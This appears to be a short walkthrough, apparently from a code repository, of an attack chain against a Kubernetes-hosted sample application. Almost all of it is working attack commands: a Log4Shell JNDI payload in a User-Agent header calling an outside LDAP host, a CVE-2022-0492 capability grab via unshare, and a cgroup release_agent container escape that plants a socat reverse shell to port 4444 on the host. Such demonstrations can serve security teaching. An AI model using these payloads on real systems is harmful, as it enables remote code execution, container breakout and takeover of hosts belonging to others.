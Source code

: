Run attack

```
curl http://sample-app.default.10.65.0.209.sslip.io/login -d "uname=test&password=invalid" -H 'User-Agent: ${jndi:ldap://18.198.55.208:1389/a}'
```

Install kubectl

```
curl -LO "https://dl.k8s.io/release/$(curl -L -s https://dl.k8s.io/release/stable.txt)/bin/linux/amd64/kubectl"; chmod +x kubectl; mv kubectl /usr/bin/
```

Test if we can access the Kubernetes API

```
kubectl get pods
```

Check capabilities

```
capsh --print
```

Try to get more capabilities (CVE-2022-0492)

```
unshare -UrmC bash
capsh --print
```

Try to break out of the container and create remote shell on host (see also https://book.hacktricks.xyz/linux-hardening/privilege-escalation/docker-security/docker-breakout-privilege-escalation#privileged)

```
# Mounts the RDMA cgroup controller and create a child cgroup
mkdir /tmp/cgrp && mount -t cgroup -o rdma cgroup /tmp/cgrp && mkdir /tmp/cgrp/x

# Enables cgroup notifications on release of the "x" cgroup
echo 1 > /tmp/cgrp/x/notify_on_release

# Finds path of OverlayFS mount for container
host_path=`sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab`

# Sets release_agent to /{overlay_fs_host_path}/cmd
echo "$host_path/cmd" > /tmp/cgrp/release_agent

# create command to execute
echo '#!/bin/bash' > /cmd
echo "socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:<IP>:4444" >> /cmd
chmod a+x /cmd

# Executes the attack by spawning a process that immediately ends inside the "x" child cgroup
# By creating a /bin/sh process and writing its PID to the cgroup.procs file in "x" child cgroup directory
# The script on the host will execute after /bin/sh exits 
sh -c "echo \$\$ > /tmp/cgrp/x/cgroup.procs"
```
